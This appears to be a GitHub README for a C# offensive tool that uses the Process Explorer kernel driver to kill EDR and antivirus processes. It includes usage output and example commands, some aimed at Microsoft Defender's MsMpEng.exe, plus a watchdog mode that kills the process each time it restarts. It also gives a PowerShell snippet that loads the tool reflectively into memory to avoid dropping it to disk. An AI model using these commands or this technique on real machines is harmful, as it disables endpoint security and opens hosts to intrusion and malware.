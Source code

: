 C# implementation of [Passenger](https://github.com/Yair-Men/Passenger)

Basically, using ProcExp Driver to kill EDRs.

One mode kills the process once, while the second (`/watchdog`) keeps monitoring for when a new process is up and kills it again (each time)



```PowerShell
PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe
[-] Failed to parse args
[!] Try to use /usage, /help, /examples


PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe /usage
==== Usage ====
ExplorerMen.exe { /install:<DRIVER_FILE_FULL_PATH> || /service:<SERVICE_NAME> } { /pid:<PID> || /name:<PROCESS_NAME> } [/watchdog]


PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe /examples
==== Example ====
[!] Load driver at C:\driver.sys as service with the name nonsense and kill process with id 123
ExplorerMen.exe /install:C:\driver.sys /service:nonsense /pid 123

[!] Start the service nonsense and kill process with name MsMpEng.exe
ExplorerMen.exe /service:nonsense /name:MsMpEng

[!] Start the service nonsense and kill process with id 123. Keep monitor the process, kill it everytime it is up again
ExplorerMen.exe /service:nonsense /pid:123 /watchdog
```


Use reflection from PowerShell:
```PowerShell
# Load the assembly into a variable
$asm = [IO.File]::ReadAllBytes("C:\Users\Windy\source\ExplorerMen\bin\x64\Release\ExplorerMen.exe")

# Use reflection to load it into current process memory space
[System.Reflection.Assembly]::Load($asm)

# Launch the app, search for the service name procexp152 and kill process named msmpeng
[ExplorerMen.Program]::Main("/service:procexp152 /name:msmpeng".Split())
```
